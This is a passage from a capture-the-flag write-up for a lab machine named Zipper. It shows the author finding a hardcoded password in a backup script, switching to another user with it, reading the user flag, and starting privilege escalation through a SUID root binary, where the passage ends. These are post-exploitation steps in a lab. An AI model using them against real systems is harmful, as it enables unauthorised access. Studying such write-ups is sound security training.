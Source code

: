We still can't read user.txt though:
```
cat: user.txt: Permission denied
zabbix@zipper:/home/zapper$
```

But we find a password inside the `backup.sh` script:
```
zabbix@zipper:/home/zapper/utils$ ls
backup.sh  zabbix-service
zabbix@zipper:/home/zapper/utils$ cat backup.sh
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```

We can `su` to `zapper` using the `ZippityDoDah` password:
```
echo $?zabbix@zipper:/home/zapper/utils$ su zapper
su zapper
Password: ZippityDoDah


              Welcome to:
███████╗██╗██████╗ ██████╗ ███████╗██████╗
╚══███╔╝██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
  ███╔╝ ██║██████╔╝██████╔╝█████╗  ██████╔╝
 ███╔╝  ██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
███████╗██║██║     ██║     ███████╗██║  ██║
╚══════╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝

[0] Packages Need To Be Updated
[>] Backups:



zapper@zipper:~/utils$ cd ..
cd ..
zapper@zipper:~$ cat user.txt
cat user.txt
aa29e9<redacted>
```

### Priv esc

There's an interesting SUID file in the `utils` directory: `zabbix-service`
```
zapper@zipper:~/utils$ ls -l
ls -l
total 12
-rwxr-xr-x 1 zapper zapper  194 Sep  8 13:12 backup.sh
-rwsr-sr-x 1 root   root   7556 Sep  8 13:05 zabbix-service
```
